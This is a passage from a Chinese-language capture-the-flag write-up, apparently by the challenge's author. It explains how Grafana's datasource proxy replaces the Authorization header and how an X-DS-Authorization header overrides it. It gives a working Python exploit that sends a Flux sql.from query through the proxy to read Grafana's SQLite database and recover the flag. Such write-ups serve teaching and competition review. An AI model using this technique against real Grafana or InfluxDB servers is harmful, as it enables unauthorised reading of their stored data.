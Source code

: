 仔细看看这个函数，发现原来是Grafana（在`ds_proxy.go:224`）会把Authorization头设置成数据源配置的用户名和密码，但是InfluxDB v2的API只支持用token（而不是用户名密码）鉴权，所以就返回了HTTP 401。

![image-20251026031453845](assets/image-20251026031453845.png)

……除非，正如下面紧挨着的这段代码显示，我们设置`X-DS-Authorization`这个头，就可以覆盖自动设置的Authorization头。

这样就得到了Flag 2的最终利用：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/api/v2/query?org=org',
    auth=('geekgame', 'geekgame'),
    headers={
        'Content-Type': 'application/vnd.flux',
        'X-DS-Authorization': 'Token token',
    },
    data='''
        import "sql"
        sql.from(
            driverName: "sqlite3",
            dataSourceName: "file:/var/lib/grafana/grafana.db",
            query: "SELECT email FROM user WHERE login='admin'",
        )
    '''
).text
print(res)
flag_hex = res.partition(',_result,0,')[2].strip()
print(binascii.unhexlify(flag_hex.encode()).decode())
```

好像最后的`X-DS-Authorization`这一步意外卡了一些选手。出题的时候完全没有意料到，毕竟报了错很自然地就要翻翻源码究竟是为什么报错，然后顺着设置`Authorization`头的逻辑往下多看两行直接就是`X-DS-Authorization`。
